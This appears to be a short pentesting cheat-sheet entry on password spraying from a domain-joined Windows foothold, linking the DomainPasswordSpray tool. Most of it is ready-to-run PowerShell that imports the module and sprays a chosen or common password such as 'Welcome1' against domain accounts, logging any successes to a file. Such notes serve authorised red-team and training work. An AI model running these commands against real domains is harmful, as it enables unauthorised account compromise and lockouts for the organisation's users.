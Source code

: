 # Password Spraying from Windows
From a foothold on a domain-joined Windows host, the [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) tool is highly effective.
``` powershell
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password <Sprayed-Password> -OutFile spray_success -ErrorAction SilentlyContinue
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

